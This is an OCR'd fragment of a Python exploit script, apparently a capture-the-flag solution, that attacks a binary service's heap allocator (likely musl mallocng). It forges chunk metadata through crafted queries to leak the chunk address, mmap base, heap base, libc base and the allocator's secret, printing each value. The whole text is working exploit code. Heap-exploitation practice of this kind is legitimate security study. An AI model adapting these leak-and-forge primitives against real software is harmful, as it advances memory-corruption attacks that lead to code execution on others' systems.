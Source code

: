 
        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        store(b'aa',2,b'c'*0x1200,0x1200)
        #gdb.attach(io)
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        chunk_addr = int(true_addr,16)-0x80 #actvie[0]->group addr
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        mmap_base =int(true_addr,16)-0x20 #0x1200 mmap base 

        print("chunk_addr:"+hex(chunk_addr))
        print("mmap_base:"+hex(mmap_base))

        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(p64(chunk_addr+0x50)+p64(chunk_addr)+p64(2)+p64(0x30)+p64(0x0000000014d6c0ff)+p64(0),0x30) # usage[0] -> chunk
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        heap_base = int(true_addr,16)-0x1a8
        print("heap_base:"+hex(heap_base))

        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(p64(chunk_addr+0x50)+p64(heap_base+0xf0)+p64(2)+p64(0x10)+p64(0x0000000014d6c0ff)+p64(0),0x30) # usage[0] -> chunk
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        libc.address = int(true_addr,16)-0x9e0a0-0x15000
        print("libc.addr:"+hex(libc.address))

        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(p64(chunk_addr+0x50)+p64(heap_base)+p64(2)+p64(0x10)+p64(0x0000000014d6c0ff)+p64(0),0x30) # usage[0] -> chunk
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        secret = int(true_addr,16)
        print("secret:"+hex(secret))

        print("---------------------------------------------------------")
        print("now all info we need is ok!")
        print(" ")
        print("chunk_addr:"+hex(chunk_addr)) #active[0]-> group addr
        print("mmap_base:"+hex(mmap_base)) #0x1200 position
        print("heap_base:"+hex(heap_base)) # meta_arena
        print("secret:"+hex(secret))
        print("libc.addr:"+hex(libc.address))
